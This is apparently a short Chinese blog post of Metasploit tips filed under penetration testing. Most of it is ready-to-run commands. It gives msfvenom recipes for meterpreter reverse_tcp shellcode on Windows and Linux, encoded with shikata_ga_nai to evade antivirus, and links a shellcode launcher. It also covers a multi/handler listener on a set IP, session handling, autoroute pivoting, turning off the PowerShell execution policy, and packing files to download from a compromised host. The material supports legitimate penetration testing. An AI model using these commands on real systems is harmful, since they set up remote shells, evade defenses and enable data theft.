 ```yaml
---
layout: post
title: metasploit 使用tips
categories: 渗透测试
tag: metasploit
---
```


## payload 生成 、 分离免杀

- 生成shellcode

    `msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=ip lport=port -ex86/shikata_ga_nai -i 5 -f raw > test.c`

- shellcode 加载器

    https://github.com/clinicallyinane/shellcode_launcher/
    `shellcode_launcher.exe -i test.c`

- linux

    `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=< Your IP Address> LPORT=< Your Port to Connect On> -f elf > shell.elf`

## meterpreter

- handle

    ```shell
    use exploit/multi/handle
    set payload windows/meterpreter/reverse_tcp
    set lport 4444
    set lhost 192.168.231.23
    run
    ```

- sessions 查看当前session
  - background 切换sessions 至后台
  - sessions -i 1  将session 1 调至前台

- run aotorouter -p  自动添加路由
  - post/multi/manage/autoroute自动添加路由

## powershell

- 开执行权限

    Set-ExecutionPolicy Unrestricted

## linux 

- 遇到文件下载失败 试试先打包 再下

    打包当前路径 tmp目录 tar -zcvf tmp.tar.gz ./tmp
